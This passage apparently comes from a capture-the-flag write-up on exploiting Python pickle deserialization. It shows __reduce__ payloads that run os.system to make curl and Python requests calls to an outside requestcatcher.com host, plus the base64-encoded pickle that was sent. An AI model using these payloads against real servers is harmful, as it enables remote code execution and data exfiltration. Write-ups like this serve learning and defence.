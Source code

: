 [source](https://leapcell.medium.com/hacking-with-pickle-python-deserialization-attacks-explained-a43d5458a0fe)

So using this I can inject any payload on the server

### creating the payload

using the above code

Now I needed to access the file directory and get the results to my self with the request for this I planed to use request cather website

which is a website that can be used to catch links here is the link for it

https://requestcatcher.com/

I create the following payload and send it as pickled base 64 data to website

**Use your own request catcher url here below:**

```python
class RCE:
    def __reduce__(self):
        cmd = "curl -X POST -d 'Hello World!' https://skjeks.requestcatcher.com/test"
        return os.system, (cmd,)
```

But this payload though was working offline when unpickled. But it was not working on the website.

At this moment I was just about to give up but I asked tushar bhaiya about the same and he told me that there is a posibility that curl might not be installed on the server running the webpage and hinted me to use something that comes preinstalled with the webserver

Since I had already research what webserver it was using I tried using flask requests and it worked:

```python
import pickle
import os
import base64


class RCE:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.get(f'https://skjeks.requestcatcher.com/')\""
        return os.system, (cmd,)

payloadpickle.dumps(RCE())
base64.b64encode(payload)
```

And I got this string :

`gASVdQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFpweXRob24zIC1jICJpbXBvcnQgb3M7aW1wb3J0IHJlcXVlc3RzO3JlcXVlc3RzLmdldChmJ2h0dHBzOi8vc2tqZWtzLnJlcXVlc3RjYXRjaGVyLmNvbS8nKSKUhZRSlC4=`

which I was able to catch when through muaah route
